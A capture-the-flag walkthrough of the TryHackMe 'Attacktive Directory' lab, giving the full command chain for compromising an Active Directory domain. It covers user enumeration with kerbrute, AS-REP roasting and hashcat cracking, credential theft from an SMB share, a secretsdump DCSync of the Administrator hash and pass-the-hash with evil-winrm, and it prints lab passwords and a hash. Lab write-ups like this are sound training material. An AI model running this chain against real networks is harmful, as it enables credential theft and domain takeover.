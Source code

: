 # Attacktive directory

|                                     ![Kerberos](/_static/images/kerberosfun.png)                                     |
|:--------------------------------------------------------------------------------------------------------------------:|
| The example was made from doing the [THM: Attacktive Directory room](https://tryhackme.com/room/attacktivedirectory) |

## Attack tree

```text
1 Discovery (AND)
    1.1 Scan ports
    1.2 Enumerate 139/445
2 Enumerate DC users (AND)
3 Exploit Kerberos
    3.1 Query a ticket from users (if possible) (AND)
    3.2 Crack the hash
4 Enumerate the DC further (AND)
    4.1 Map remote SMB shares
    4.2 Search for information for further escalation
    4.3 Decode or crack if necessary
5 Elevate privileges within the domain
    5.1 Dump ntds.dit
    5.2 Get administrators NTLM hash
    5.3 Pass the hash with Evil-WinRM
```

## Scan with nmap

    # nmap -sV -sC -T4 <IP address target>

## Enumerate 139/445

    # enum4linux <IP address target>

## Enumerate the DC

Add the following line to `/etc/hosts` file:

    <IP address target> spookysec.local

Download the user list and password list in the ~/Downloads directory:

```text
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
```

Run the kerbrute command in the ~/Downloads directory:

    # /opt/kerbrute/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

![Results kerbrute spooky.local](/_static/images/kerbrute-spookylocal.png)

## Exploiting Kerberos

Kerberos pre-authentication has been disabled for svc-admin. Get the ticket:

    # cd /opt/impacket/examples
    # python GetNPUsers.py spookysec.local/svc-admin -no-pass

Check what [type of hash](https://hashcat.net/wiki/doku.php?id=example_hashes) was retrieved:

    Kerberos 5 AS-REP etype 23 -> mode 18200

Crack the hash with the modified password list:

    # hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt

Connect to the share using smbclient:

```text
smbclient '\\spookysec.local\backup' -U svc-admin
smb: \> ls
smb: \> mget backup_credentials.txt
exit
```

Decode using [base64](https://www.base64decode.org/). We now have the credentials of the backup account.

`secretdump.py` is part of impacket:

```text
cd /opt/impacket/examples
python3 secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
```

Now we have the password: management2005

## Enumerate the DC further

Map remote shares:

    $ smbclient -U spookysec.local/svc-admin -L //<IP target machine>
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 

And:

    $ smbclient -U spookysec.local/svc-admin //<IP target machine>/backup
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Sat Apr  4 19:08:39 2020
      ..                                  D        0  Sat Apr  4 19:08:39 2020
      backup_credentials.txt              A       48  Sat Apr  4 19:08:53 2020

Get them backup credentials:

    smb: \> get backup_credentials.txt

It contains base64 encoded credentials. Decoding the base64 string reveals the credentials:
    
    $ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
    [...]:backup2517860

Now that we have new user account credentials, we may have more privileges on the system than before. 
The username of the account "backup" indicated it is the backup account for the Domain Controller. 
This account has a unique permission that allows all Active Directory changes to be synced with this user account. 
This includes password hashes.

## Elevate privileges within the domain

Retrieve all password hashes that this user account (which is synced with the domain controller) has to offer. 
Exploiting this, we may have full control over the AD Domain.

    $ python secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
    ...
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
    ...

Pass the Administrators NTLM hash with Evil-WinRM:

    $ evil-winrm -i <IP target machine> -u Administrator -H <Administrators NTLM hash>

If on TryHackMe target, all flags are in the users desktops. The Administrator account has got acces to all.

## Tools

* [Impacket](https://github.com/SecureAuthCorp/impacket)

```text
# git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
# pip3 install -r /opt/impacket/requirements.txt
# cd /opt/impacket/ && python3 ./setup.py install
```

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```text
# apt install bloodhound neo4j
```

* [Kerbrute](https://github.com/ropnop/kerbrute/releases/)

```text
# chmod +x filename
# mkdir /opt/kerbrute
# cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute
```

